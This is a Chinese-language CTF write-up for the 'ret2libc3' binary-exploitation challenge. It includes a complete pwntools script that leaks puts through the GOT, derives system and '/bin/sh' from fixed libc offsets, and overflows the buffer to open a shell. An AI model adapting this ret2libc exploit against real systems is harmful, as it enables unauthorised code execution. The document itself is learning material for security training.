

# ret2libc3

检查程序保护




查看反汇编


观察程序，发现溢出点在子函数中


从拷贝函数这里开始突破，首先我尝试了在IDA中寻找system函数，构造系统调用的

rop链，由于是动态链接的文件，无法找到这些。于是考虑利用libc来找system函数

payload如下

```python
from pwn import *
import time 
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

#gdb.attach(sh)
#sleep(15)

#获取puts的got地址
puts_plt = ret2libc3.got['puts']
data = sh.recvuntil(b'Give me an address (in dec) :')
#程序中这里会将输入的地址取值，输入got表地址，便得到了函数地址
sh.send(str(puts_plt))
#接收一行数据
data = sh.recvline()
#根据冒号将数据拆分成两部分 然后取出最后一部分，用strip() 去除收尾空格，再用int转为整数
puts_address = int(data.split(b':')[-1].strip(), 16)
#print(hex(puts_address))

#根据偏移找到system和bin_sh的地址
system_address = puts_address - 0x2C4C0
bin_sh = puts_address + 0x120723

read_addr = 0x080483B0
pop_pop_pop_ret = 0x080486cd
#print(hex(system_address))               
payload = flat([b'a'*60,system_address,0xcafecafe,bin_sh])

sh.send(payload)


sh.interactive()
```

总结：

第一次read写入的是一个地址，See_something中打印出了改地址内的内容，正好可以利用got表打印出puts的函数地址

在这之后我卡了一会儿，一直在思考/bin/sh如何拿到，有尝试返回到read函数，但发现无法构造参数(有0x00)，后来想到也可以利用偏移到libc.so中去拿。思维有些定式，还需要转变一下自己的思维，让头脑更灵活一些。
